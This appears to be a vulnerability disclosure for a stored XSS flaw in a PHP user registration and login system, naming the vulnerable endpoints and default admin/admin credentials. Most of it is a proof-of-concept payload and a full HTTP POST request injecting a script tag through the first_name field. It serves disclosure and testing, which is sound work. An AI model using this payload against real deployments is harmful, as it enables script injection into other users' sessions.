 ## User Registration and Login System by rems has xss (Stored XSS)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html


username && password : admin/admin

Vulnerability File: /endpoint/add-user.php ;/home.php


[+] payload: contact_number=1&email=testing%40example.com&first_name=LgyxmpHT--><ScRiPt%20>alert(9221)</ScRiPt><!--&last_name=LgyxmpHT&password=u]H[ww6KrA9F.x-F&username=LgyxmpHT

First:

```
POST /endpoint/add-user.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Referer: http://127.0.0.1/
Content-Length: 164
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

contact_number=1&email=testing%40example.com&first_name=LgyxmpHT--><ScRiPt%20>alert(9221)</ScRiPt><!--&last_name=LgyxmpHT&password=u]H[ww6KrA9F.x-F&username=LgyxmpHT
```

Then access /home.php 

![Alt text](image-1.png)
